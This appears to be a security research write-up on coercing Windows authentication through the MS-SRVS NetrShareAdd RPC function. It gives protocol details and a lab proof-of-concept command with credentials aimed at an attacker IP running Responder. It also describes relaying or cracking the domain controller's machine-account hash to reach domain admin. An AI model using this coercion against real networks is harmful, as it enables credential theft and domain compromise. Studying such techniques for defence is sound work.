 # MS-SRVS - Remote call to NetrShareAdd (opnum 14)

## Summary

+ **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

+ **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

+ **Protocol version**: 3.0

+ **SMB Named pipe**: `\PIPE\srvsvc`

+ **Function name**: [`NetrShareAdd`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/41d02541-d0d2-424f-84f0-c0616fb548f9)

+ **Function operation number**: `14`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetrShareAdd`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/41d02541-d0d2-424f-84f0-c0616fb548f9) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrShareAdd('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrShareAdd(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in] DWORD Level,
   [in, switch_is(Level)] LPSHARE_INFO InfoStruct,
   [in, out, unique] DWORD* ParmErr
 );
```

## References

+ Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

+ Documentation of function `NetrShareAdd`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/41d02541-d0d2-424f-84f0-c0616fb548f9